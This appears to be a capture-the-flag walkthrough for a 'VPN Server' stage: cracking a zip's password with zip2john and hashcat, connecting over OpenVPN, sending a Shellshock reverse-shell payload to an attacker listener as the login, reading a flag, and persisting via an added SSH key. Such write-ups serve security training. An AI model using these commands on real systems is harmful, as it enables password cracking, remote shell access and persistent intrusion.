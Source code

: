 # VPN Server

1. Resume From [🗂 Mail Server](../10-Mail-Server/)
2. Get OVPN from Mail Server: [🗂 258-s.msg](../10-Mail-Server/08-store0/5/msg/0/258-3.msg)
3. Decode Zip File from Base64: `https://www.freeformatter.com/base64-encoder.html`
4. Install `John The Ripper`

5. Generate Hash `zip2john 03-vpn.zip > hashes\05-zip_hashes.txt`
6. Edit File (remove file names from hashes): [🗂 Zip Hashes](./hashes/06-zip_hashes.txt)
7. Run Hashcat
```
hashcat -m 13600 -a 3 ./hashes/06-zip_hashes.txt "?l?l?l?l?l?l?l"

# to show Results
hashcat -m 13600 -a 3 ./hashes/06-zip_hashes.txt "?l?l?l?l?l?l?l" --show > hashes\07-hashcat.txt
```
8. Hashcat Results in [🗂 Hashcat](./hashes/07-hashcat.txt): `ehsanit`
9. Extract and Edit: `09-vpn\client.ovpn`
```
...
remote 172.16.4.120 1194
...
```
10. Start: `nc -l 0.0.0.0 9696`
11. Lets Connect: `openvpn 09-vpn\client.ovpn` (I use GUI in Video!)
12. Send Username, Password
```
() { :;};/bin/bash -i >& /dev/tcp/10.120.0.7/9696 0>&1 &
```
13. Read Flag: MAZAPA_e33e4c6c2f2f1df8be066279d18c8e26
14. Persist Your Connection:
```
echo <public-key> >> ~/.ssh/authorized_keys
```
15. Connect with SSH
```
ssh -i "<private-key>" vpn_user@vpn.petromaz.ir
```
